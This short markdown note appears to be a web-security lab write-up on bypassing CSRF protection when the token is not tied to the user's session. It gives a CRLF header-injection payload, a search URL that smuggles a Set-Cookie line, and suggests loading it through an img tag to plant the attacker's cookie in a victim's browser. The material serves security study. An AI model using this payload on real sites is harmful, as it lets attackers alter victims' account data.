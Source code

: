 # Strategies

- Maybe the csrf token not tied to user session, so attacker can use his own token to change user data
- Cookie editor extension help work with cookie easier

# Payload

- `/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None` can use to force change stored cookies of victim.
- use <img src=''> tag to load the above payload to set cookie into victim browser
